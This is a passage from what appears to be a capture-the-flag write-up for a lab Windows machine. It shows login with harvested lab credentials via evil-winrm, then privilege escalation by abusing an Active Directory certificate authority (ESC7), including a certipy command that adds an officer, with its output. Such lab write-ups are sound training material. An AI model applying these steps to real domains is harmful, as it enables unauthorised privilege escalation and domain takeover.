 - raven@manager.htb:R4v3nBe5tD3veloP3r!123

# Initial Access

 Let's use these creds to check if we are allowed to use evil-winrm to login to raven account through these credentials.
 
<img  alt="Pasted image 20231226131256" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/dba39865-2218-4439-b801-f970b85d622b">
 
 Now Let's login to **raven** account using Evil-winrm. 
 
<img  alt="Pasted image 20231226131524" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/63bfeef1-5c2b-4512-832f-7ae863d9e1cc">
 
 We got our user flag from Desktop.
 
<img alt="Pasted image 20231226131935" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/1b6d1b17-2161-4b3c-adee-630d82a6bde2">
  
# Privilege Escalation

Let's move towards privilege escalation and check if we have any vulnerable certificate on machine using Certify.exe. We found one **SubCA** with managing Certificate permissions.

<img  alt="Pasted image 20240101235652" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/b078a05b-883c-4b91-9ac7-001d2ad7b3db">

Let's go to [certipy](https://github.com/ly4k/Certipy#esc7) and check if somehow we can abuse it. We found **ESC7** matching our requirements, 
	1. managing Certificate Authority: which we have.
	2. SubCA enabled: which is also enabled.
	3. Manage Certificate: which we don't have but if we have manage CA right then we can give our user this rights.

## Exploitation

Let's move to Exploitation phase. You have to do these steps fast otherwise it will give you access denied when you request for certificate on fourth step. First we need to add our user raven to manage Certificate user using by adding him as a new officer:

```
➜  manager $ certipy ca -ca 'manager-DC01-CA' -add-officer raven -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'MANAGER.HTB' at '192.168.190.2'
[+] Resolved 'MANAGER.HTB' from cache: 10.10.11.236
[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.236:636 - ssl
[+] Default path: DC=manager,DC=htb
[+] Configuration path: CN=Configuration,DC=manager,DC=htb
[+] Trying to get DCOM connection for: 10.10.11.236
[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
